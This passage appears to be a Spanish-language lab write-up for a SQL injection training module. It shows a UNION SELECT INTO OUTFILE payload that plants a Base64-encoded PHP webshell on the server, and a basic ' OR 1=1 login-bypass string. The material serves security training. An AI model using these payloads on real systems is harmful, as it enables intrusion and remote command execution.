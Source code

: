 ### Writing Files

#### Preguntas

**Find the flag by using a webshell.**

Primero subimos la webshell en Base64.

```
' UNION SELECT "", FROM_BASE64('PD9waHAgc3lzdGVtKCRfR0VUWzBdKTsgPz4='), "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

<figure><img src="../.gitbook/assets/image (1704).png" alt=""><figcaption></figcaption></figure>

Buscamos en el navegador.

<figure><img src="../.gitbook/assets/image (1705).png" alt=""><figcaption></figcaption></figure>

Buscamos entonces dónde se encuentra la flag.

<figure><img src="../.gitbook/assets/image (1706).png" alt=""><figcaption></figcaption></figure>

Mostramos contenido.

<figure><img src="../.gitbook/assets/image (1707).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

Nos encontramos un panel de login y lo bypasseamos con una inyección básica.

```
' OR 1=1 LIMIT 1-- -'
```

Estamos dentro.

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
